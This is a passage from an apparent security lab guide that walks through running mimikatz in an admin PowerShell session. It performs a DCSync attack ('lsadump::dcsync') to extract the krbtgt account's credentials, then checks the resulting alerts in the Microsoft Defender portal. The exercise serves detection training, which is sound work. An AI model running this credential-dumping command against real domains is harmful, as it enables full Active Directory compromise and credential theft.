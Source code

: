 1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

      ```powershell
      cd C:\MimikatzLab\mimikatz-master\mimikatz-master\x64
      ```
1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:yourdomain.com /user:krbtgt
      ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Click **Alerts** to view the alerts queue.
